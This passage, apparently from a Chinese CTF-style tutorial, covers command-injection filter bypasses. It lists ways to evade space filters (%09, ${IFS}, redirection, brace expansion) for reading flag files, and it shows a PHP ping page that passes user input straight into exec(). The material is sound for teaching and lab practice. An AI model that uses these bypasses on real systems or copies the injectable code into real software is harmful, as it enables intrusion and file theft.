 dir与ls的升级版

```bash
find -- 列出当前目录下的文件以及子目录所有文件
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819215054517.png#pic_center)



------

##### 0x02 过滤空格

- %09（url传递）(`cat%09flag.php`)
- ${IFS}
- $IFS$9
- <>（`cat<>/flag`）
- <（`cat</flag`）
- {cat,flag}

例;
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200729224339947.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200729224406557.png)





------

##### 0x03 过滤目录[分隔符](https://so.csdn.net/so/search?q=分隔符&spm=1001.2101.3001.7020) /

例：

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
123456789101112131415
```
